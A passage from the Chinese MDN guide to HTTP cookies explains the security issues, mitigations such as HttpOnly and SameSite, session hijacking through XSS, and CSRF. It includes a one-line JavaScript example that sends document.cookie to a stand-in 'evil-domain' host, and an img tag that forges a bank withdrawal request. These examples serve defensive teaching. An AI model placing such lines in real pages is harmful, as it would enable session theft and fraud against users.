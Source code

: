通过 `JavaScript` 创建的 `Cookie` 不能包含 HttpOnly 标志。

请留意在[安全](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies#Security)章节提到的安全隐患问题，JavaScript 可以通过跨站脚本攻击（XSS）的方式来窃取 Cookie。

## 安全

> 信息被存在 `Cookie` 中时，需要明白 `cookie` 的值时可以被访问，且可以被终端用户所修改的。根据应用程序的不同，可能需要使用服务器查找的不透明标识符，或者研究诸如 `JSON Web Tokens` 之类的替代身份验证/机密机制。<br/>
> 当机器处于不安全环境时，切记不能通过 `HTTP Cookie` 存储、传输敏感信息。

缓解涉及 Cookie 的攻击的方法：

- 使用 `HttpOnly` 属性可防止通过 `JavaScript` 访问 `cookie` 值。
- 用于敏感信息（例如指示身份验证）的 `Cookie` 的生存期应较短，并且 `SameSite` 属性设置为 `Strict` 或 `Lax`。（请参见上方的 [SameSite Cookie](https://wiki.developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookiesedit#)。）在[支持 SameSite 的浏览器](https://wiki.developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#Browser_compatibility)中，这样做的作用是确保不与跨域请求一起发送身份验证 `cookie`，因此，这种请求实际上不会向应用服务器进行身份验证。

### 会话劫持和 XSS

在 `Web` 应用中，`Cookie` 常用来标记用户或授权会话。因此，如果 `Web` 应用的 `Cookie` 被窃取，可能导致授权用户的会话受到攻击。常用的窃取 `Cookie` 的方法有利用社会工程学攻击和利用应用程序漏洞进行 `{{Glossary("XSS")}}` 攻击。

```js
new Image().src =
  'http://www.evil-domain.com/steal-cookie.php?cookie=' + document.cookie;
```

`HttpOnly` 类型的 `Cookie` 用于阻止了 `JavaScript` 对其的访问性而能在一定程度上缓解此类攻击。

### 跨站请求伪造（CSRF）

[维基百科](https://en.wikipedia.org/wiki/HTTP_cookie#Cross-site_request_forgery)已经给了一个比较好的 `{{Glossary("CSRF")}}` 例子。比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：

```html
<img
  src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory"
/>
```

当你打开含有了这张图片的 `HTML` 页面时，如果你之前已经登录了你的银行帐号并且 `Cookie` 仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。有一些方法可以阻止此类事件的发生：

- 对用户输入进行过滤来阻止 `{{Glossary("XSS")}}`；
- 任何敏感操作都需要确认；
- 用于敏感信息的 Cookie 只能拥有较短的生命周期；
- 更多方法可以查看[OWASP CSRF prevention cheat sheet](<https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet>)。

## 跟踪和隐私

### 第三方 Cookie
